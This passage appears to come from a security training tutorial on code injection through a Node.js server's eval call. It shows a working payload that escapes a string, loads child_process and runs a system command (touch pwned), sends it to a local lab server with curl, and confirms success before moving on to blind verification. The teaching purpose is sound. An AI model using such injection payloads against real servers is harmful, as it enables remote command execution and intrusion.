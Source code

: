 So, following our previous steps, our payload would be the following:

```javascript
"); const { exec } = require("child_process"); exec("touch pwned"); //

```

We will once again escape our payload with `jq`:

```shell
jq -aR .

"); const { exec } = require("child_process"); exec("touch pwned"); //
"\"); const { exec } = require(\"child_process\"); exec(\"touch pwned\"); //"

```

Now, we can once again copy our escaped payload and send it using `curl`:

```shell
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"touch pwned\"); //"}'

```

We send our command, and check our `server.js` terminal:

```shell
node server.js

Server is running on http://0.0.0.0:21440
const crypto = require("crypto"); keyHash = crypto.createHash("md5").update(""); const { exec } = require("child_process"); exec("touch pwned"); //").digest("hex");

```

We can now stop our server, and check whether the `pwned` file was added:

```shell
ls

admin.html  denied.html  pwned  server.js  validateKey.js

```

We have successfully executed a system command using our `eval` injection. As you have noticed, we did not get any output back in our HTTP response with `curl` or in the `node server.js` console.


# Blind Verification

* * *

In the previous section, we were able to successfully execute a command on the system, through injecting JavaScript code into `eval`. However, the main thing we noticed is that we did not get any command output returned to us in the HTTP response to our `curl` command.

Since we are dealing with `Code Injection`, rather than `Command Injection`, it should be possible for us to inject another function that would return the output for us, and thus be able to execute commands and retrieve outputs. For now, we will be dealing with the much more difficult issue of `Blind Command Execution`, in which we may have achieved command execution, but with no output it would be difficult to verify that we did execute our command, or it was simply stopped by the WAF or Firewall.
